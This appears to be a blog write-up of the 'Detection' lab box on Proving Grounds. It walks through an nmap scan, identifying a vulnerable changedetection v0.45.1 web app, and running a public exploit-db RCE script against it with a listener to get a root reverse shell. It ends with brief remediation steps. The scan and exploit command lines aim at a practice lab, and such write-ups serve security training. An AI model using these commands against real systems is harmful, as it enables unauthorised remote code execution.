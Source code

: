 ```yaml
---
layout: writeup
title: Detection - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Detection Box from Proving Grounds
image: # /assets/images/Detection/Detection.png
fig-caption: # Add figcaption (optional)
tags: [Linux, changedetection]
---
```


Here's a new box from Proving Grounds. It's not on TJ Null's OSCP list or LainKusanagi's list, but it was new so I figured I'd try it out. As usual we get started with an nmap scan: `sudo nmap -p- -sC -A -v 192.168.197.97 --open -o nmap`. It reveals two open ports - 22 and 5000. Because 22 is often for admin of these labs, we can just check out 5000 in the URL of the browser, and we see this page:

![Detection1.png](/assets/images/Detection/Detection1.png){: .center-aligned width="600px"}

We can see that the version we appear to be working with a web app called "changedetection" and it looks like version `v0.45.1` in the top right corner. I've never heard of this app, so I look to go check it out, and I also see that this is an RCE exploit availability for this `< 0.45.20` on exploit-db. We can see the required arguments below, taking note that the default port of the listener is 4444. 

![Detection2.png](/assets/images/Detection/Detection2.png){: .center-aligned width="600px"}

After that we start a listener on port 4444 and run this full command (where 52027.py is the exploit found in searchsploit): `python3 52027.py --url http://192.168.197.97:5000/ --ip 192.168.45.239`.

![Detection3.png](/assets/images/Detection/Detection3.png){: .center-aligned width="600px"}

And we get a shell, and it's root. Easy peasy. 

### Lessons Learned
Not a whole lot going on here. 

### Remediation Steps
1. Update to a different version of changedetection. 
2. Run it with something besides the root account, such as a service account. 